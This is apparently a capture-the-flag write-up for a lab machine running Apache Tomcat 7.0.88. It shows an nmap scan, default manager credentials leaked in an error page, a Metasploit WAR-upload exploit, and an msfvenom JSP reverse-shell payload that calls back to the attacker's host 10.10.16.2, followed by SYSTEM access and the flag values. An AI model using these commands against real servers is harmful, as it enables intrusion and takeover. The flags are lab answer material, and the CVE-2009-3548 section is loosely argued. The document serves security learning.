

# Scanning

## Nmap


```bash
nmap -sC -sV -T5 -oA nmap/initials 10.10.10.95 -Pn
```

```bash
# Nmap 7.94SVN scan initiated Tue May 20 15:50:47 2025 as: nmap -sC -sV -T5 -oA nmap/initials -Pn 10.10.10.95
Nmap scan report for 10.10.10.95 (10.10.10.95)
Host is up (0.17s latency).
Not shown: 999 filtered tcp ports (no-response)
PORT     STATE SERVICE VERSION
8080/tcp open  http    Apache Tomcat/Coyote JSP engine 1.1
|_http-server-header: Apache-Coyote/1.1
|_http-title: Apache Tomcat/7.0.88
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 20 15:51:26 2025 -- 1 IP address (1 host up) scanned in 38.79 seconds
```

- Found port 8080 open running `Apache Tomcat 7.0.88` with Coyote JSP engine 1.1
- Used `-Pn` flag to skip host discovery as the target might be blocking ICMP ping packets
- The scan reveals this is a fairly isolated server with only the Tomcat service exposed
- Apache Tomcat 7.0.88 is relatively outdated, suggesting potential vulnerabilities

# Enumeration

- Accessing the web server at `http://10.10.10.95:8080` presents the default Tomcat welcome page:


- The welcome page shows links to various Tomcat applications, including the Tomcat Manager
- When attempting to access the `Manager App`, I'm prompted for authentication credentials
- First tried basic credentials:
    - `Admin:Admin`


- This attempt resulted in "Access Denied" - but interestingly, the error page reveals valid credentials in plain text!
- Hardcoded default credentials appear in the error message:
    - `tomcat:s3cret`


- Using these credentials successfully grants access to the Tomcat Manager interface at `http://10.10.10.95:8080/manager/html`


- The Manager interface provides complete control over deployed applications and server status
- This is a significant security weakness - administrative credentials should never be included in error messages


- Using `searchsploit` to find known vulnerabilities for this Tomcat version:


- Several vulnerabilities appear, including multiple paths for exploitation

## Technical Analysis of CVE-2009-3548

- The Apache Tomcat Manager application is vulnerable to `CVE-2009-3548`, which is a `directory traversal vulnerability`. This vulnerability specifically affects:
	- Apache Tomcat versions 6.0.0 to 6.0.20
	- Apache Tomcat versions 5.5.0 to 5.5.28
	- Apache Tomcat versions 4.1.0 to 4.1.39
- While our target is running Tomcat 7.0.88, it's still vulnerable to similar attack vectors because of how the Manager application handles WAR file deployments.

## Attack Vector Details

1. **Authentication Bypass**: The vulnerability originally allowed attackers to bypass authentication by using directory traversal sequences (`../`) in URLs.
2. **WAR File Deployment**: In our case, we're using valid credentials, but exploiting the ability to deploy custom WAR (Web Application Archive) files.
3. **Execution Flow**:
    - A WAR file contains a web application that can be deployed to a Java servlet container
    - When deployed, Tomcat extracts and executes the contents
    - If we include malicious JSP code in our WAR file, it will execute with Tomcat's privileges
    - Since Tomcat is typically running as a privileged user, this allows for remote code execution
4. **Modern Exploitation**: While our target isn't vulnerable to the original CVE-2009-3548 directory traversal, the WAR file upload functionality presents a similar security risk that can be exploited through the Manager interface.

# Exploitation using Metasploit

- After confirming the vulnerability exists, I used Metasploit's `tomcat_mgr_upload` module:

```bash
use exploit/multi/http/tomcat_mgr_upload
set rhosts 10.10.10.95
set rport 8080
set lhost 10.10.16.2
set httpusername tomcat
set httppassword s3cret
exploit
```

- This module:
    1. Authenticates to the Tomcat Manager interface
    2. Creates a malicious WAR file containing a JSP payload
    3. Uploads and deploys the WAR file
    4. Triggers the payload to establish a reverse shell


- Success! The module worked perfectly and provided a Meterpreter shell
- This demonstrates how dangerous exposed management interfaces can be, especially with default credentials

# Manual Exploitation

- While Metasploit makes this easy, understanding the manual process is valuable for learning
- The Tomcat Manager interface provides a direct "WAR file to deploy" upload function:


- First, I created a custom payload using `msfvenom`:

```bash
msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.16.2 lport=1337 -f war -o shell2.war
```

- This command:
    1. Uses the `java/jsp_shell_reverse_tcp` payload - a JSP-based reverse shell
    2. Sets my attacking machine as the callback destination
    3. Formats the output as a WAR file
    4. Names the output file `shell2.war`


- After generating the payload, I uploaded it through the Manager interface
- The WAR file appears in the application list after successful deployment:


- A WAR file's context path (URL) is typically the filename without the .war extension
- Starting a netcat listener to catch the reverse shell:

```bash
nc -lvnp 1337
```

- Then triggering the payload by accessing the deployed application:

 

- Success! The shell connects back with SYSTEM privileges
- This demonstrates the severity of the vulnerability - direct command execution with the highest privilege level

### Understanding the WAR Payload

- The WAR file contains:
	1. A deployment descriptor (`WEB-INF/web.xml`) that defines the application structure
	2. JSP files that execute when accessed through the web server
	3. In our case, embedded Java code that creates a reverse TCP connection
	4. When executed, it runs with the same privileges as the Tomcat service (SYSTEM in this case)

## Getting Flags

- With SYSTEM-level access, retrieving both user and root flags is trivial:



lua

```lua
user.txt
7004dbcef0f854e0fb401875f26ebd00
root.txt
04a8b36e1545a455393d067e772fe90e
```